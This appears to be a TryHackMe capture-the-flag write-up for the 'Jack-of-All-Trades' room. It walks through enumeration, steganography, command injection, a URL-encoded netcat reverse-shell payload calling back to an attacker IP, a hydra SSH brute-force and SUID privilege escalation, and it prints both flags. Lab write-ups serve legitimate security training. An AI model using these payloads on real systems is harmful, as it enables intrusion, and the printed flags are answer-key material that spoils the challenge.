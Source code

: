 # TryHackMe - Jack-of-All-Trades Write-Up

## 📌 Room Context
- Difficulty: Medium  
- Style: Boot-to-Root  
- Original Event: **Securi-Tay 2020**  
- Skills Tested: Enumeration, encoding/decoding, steganography, brute-forcing, reverse shells, privilege escalation  

---

## 🔎 1. Enumeration

### Nmap Scan
```bash
nmap -sV ip
````
Results:

    Port 22/tcp → Apache (HTTP)

    Port 80/tcp → OpenSSH

👉 Services swapped: web runs on port 22, SSH on port 80.
Accessing Web Service

Firefox blocks HTTP on port 22.
Fix:

    Go to about:config.

    Add 22 to network.security.ports.banned.override.

    Visit:

Always show details

    http://10.10.115.169:22

### 2. Web Enumeration

    Source code → /recovery.php.

    Contains encoded hints: Base32 → Hex → ROT13 and Base64.

    Reveal:

        Password clue.

        Credentials hidden in header.jpg.

### 3. Steganography

Download image:

Always show details
```
wget http://10.10.115.169:22/header.jpg
```
Extract hidden file:

Always show details

steghide extract -sf header.jpg

Found cms.creds with username & password.
###💻 4. Initial Foothold

Login at /recovery.php.
Discovered command injection at ?cmd=.

Test:

Always show details
```
http://10.10.115.169:22/nnxhweOV/?cmd=id
```
### 5. Reverse Shell

Start listener:

Always show details

nc -lvnp 4444

Payload (URL-encoded):

Always show details
```
http://10.10.115.169:22/nnxhweOV/?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.9.0.185%204444%20>%20/tmp/f
```
Got shell → upgraded with:

Always show details
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### 6. User Flag

Found password list in /home/jack/.
Brute-forced SSH on port 80:

Always show details
```
hydra -l jack -P passwords.txt ssh://10.10.115.169:80
```
Logged in → user flag inside user.jpg:

move user.jpg to your machine

flag: securi-tay2020_{********************}

### Root Flag

Check SUID binaries:

Always show details
````
find / -perm -4000 -type f 2>/dev/null
````
Found /usr/bin/strings.
Read root flag:

Always show details

strings /root/root.txt

Root flag:

Always show details

securi-tay2020_{*****************}

🎯 8. Summary

    Enumeration: Odd ports → HTTP on 22, SSH on 80.

    Exploitation: Encoded hints, stego, CMS creds.

    Foothold: Command injection → reverse shell.

    User: Hydra brute-force SSH.

    Root: Abused SUID strings.

Flags

    User: securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

    Root: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

✅ Challenge complete — machine fully compromised.
